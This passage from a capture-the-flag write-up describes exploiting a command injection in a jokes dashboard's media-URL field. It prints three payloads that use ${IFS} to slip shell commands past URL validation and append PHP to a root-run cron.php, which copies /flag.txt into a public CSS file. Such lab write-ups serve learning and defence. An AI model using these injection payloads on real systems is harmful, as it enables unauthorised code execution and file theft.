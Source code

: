 On the dashboard, I found a form to add jokes with an option to upload a media URL. I tested the input field with this payload:

```
;"ad;as'd;asd'as;d"
```

From the resulting error (Base64-encoded), I discovered the application was using shell commands, leading to a potential **command injection vulnerability**.

### Challenge:
The input field strictly validated URLs. Using `%20` (a space character in URLs) didn’t work in the shell.

After several hours of testing, I found a way to bypass the restrictions and copy the flag to the website directory without proper permissions.

---

## Step 6: Leveraging `cron.php`

While exploring further, I found a script called `cron.php`, which was triggered at intervals with **root permissions**. This gave me the perfect opportunity to inject malicious code.

### Payloads:

Here are the payloads I used to extract the flag:

```bash
ftp://example.com/;echo${IFS}"<?php">>/var/www/cron.php
ftp://example.com/;echo${IFS}'$lol1=file_get_contents("/flag.txt");'>>/var/www/cron.php
ftp://example.com/;echo${IFS}'file_put_contents("/var/www/html/assets/main.css",$lol1,FILE_APPEND);'>>/var/www/cron.php
```

---

## Step 7: Retrieving the Flag

After successfully injecting the payloads, I navigated to `main.css` in the application directory. The flag was stored there. 🎉

**Challenge Complete!**